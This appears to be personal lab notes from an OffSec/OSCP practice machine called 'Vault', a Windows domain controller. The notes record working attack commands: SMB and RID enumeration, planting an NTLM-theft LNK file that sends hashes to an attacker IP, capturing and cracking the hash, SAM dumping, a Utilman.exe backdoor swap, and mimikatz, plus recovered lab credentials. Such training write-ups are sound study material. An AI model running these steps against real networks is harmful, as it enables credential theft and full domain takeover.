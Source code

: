 ### Enumeration
```
IP=192.168.200.172
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p53,88,135,139,389,445,464,593,636,3269,3269,5985,9389,49666,49667,49673,49674,49677,49704 -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 53
	- Simple DNS Plus
- 88
	- kerberos 
- 135
	- RPC
- 139
	- RPC
- 389
	- Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
- 445
	- smb
- 464
	- kpasswd5
- 593
	- ROC
- 636
	- rcpwrapped
- 3268
	- Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
- 3269
	- rcpwrapped
- 3389
	- Microsoft Terminal Services
- 5985
	- Microsoft HTTPAPI
- 9389
	- .NET Message Framing
- 49666
	- RPC
- 49667
	- RPC
- 49673
	- RPC
- 49674
	- RPC
- 49677
	- RPC
- 49704
	- RPC
### Foothold
- RPC/ SMB
	- enum4linux $IP
		- Nothing
- 445
	- smbclient -N -L //$IP
		- ADMIN$
			- Access denied
		- C$
			- Access denied
		- DocumentsShare
			- Anonymous success
			- No files
		- IPC$
			- Anonymous success
			- No files
		- NETLOGON
			- Access denied
		- SYSVOL
			- Access denied
	- nmap --script smb-vuln* -p135,139,445 $IP
		- nothing
	- crackmapexec smb $IP -u guest -p "" --rid-brute
		- guest
		- administrator
		- krbtgt
		- anirudh
- kerberos
	- ./kerbrute_linux_amd64 bruteuser -d vault.offsec --dc 192.168.200.172 /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt anirudh
		- Failed
- LNK
	- ntlm theft
		- python3 ntlm_theft.py -g lnk -s 192.168.45.178 -f vault
		- put into smb share
	- sudo responder -I tun0
		- received ntlmv2 hash
		- hashcat -m 5600 anirudh /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
			- SecureHM
- LDAP
	- ldapsearch -H ldap://192.168.200.172 -x -b "DC=vault,DC=offsec"
		- Nothing
- sudo crackmapexec smb  $IP -u 'anirudh' -p SecureHM --shares
	- C$ writable
- impacket-psexec vault.offsec/anirudh:'SecureHM'@192.168.200.172
	- failed
- evil-winrm -i 192.168.200.172 -u anirudh -p 'SecureHM'
	- successful login
### PE
#### Windows
- anirudh
	- whoami /all
		- SeMachineAccountPrivilege Enabled
		- SeSystemtimePrivilege Enabled
		- SeBackupPrivilege Enabled
			- reg save hklm\sam C:\Users\anirudh\sam.bak
			- reg save hklm\system C:\Users\anirudh\system.bak
			- Download to kali
			- impacket-secretsdump -sam sam.bak -system system.bak LOCAL
			- administrator:608339ddc8f434ac21945e026887dc36
		- SeRestorePrivilege Enabled
			- mv /Windows/System32/Utilman.exe /Windows/System32/Utilman.old
			- mv /Windows/System32/cmd.exe /Windows/System32/Utilman.exe
			- shutdown /r /f /t 0
			- Reconnect
			- Windows key + U = admin cmd
		- SeShutdownPrivilege Enabled
		- SeChangeNotifyPrivilege Enabled
		- SeRemoteShutdownPrivilege Enabled
		- SeTimeZonePrivilege Enabled
	- systeminfo
		- `./wes.py ~/OSCP/boxes/BOX_NAME/systeminfo.txt  > ~/OSCP/boxes/BOX_NAME/systeminfo_exploits.txt`
	- history
		- (Get-PSReadLineOption).HistorySavePath
	- Users with console
		- Administrator, Guest, krbtgt, anirudh
	- Services
		- PS1: `Get-Service | Select-Object -Property Name, DisplayName, Status
		- Unquoted
			- cmd
				- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
			- PS1
				- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
			- icacls Filepath before .exe
				- Looking for W or F
	- netstat -ano
		- Active ports
	- mimkatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
			- no privs
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
			- no privs
### Credentials
- `VAULT\anirudh:SecureHM
### Lessons Learned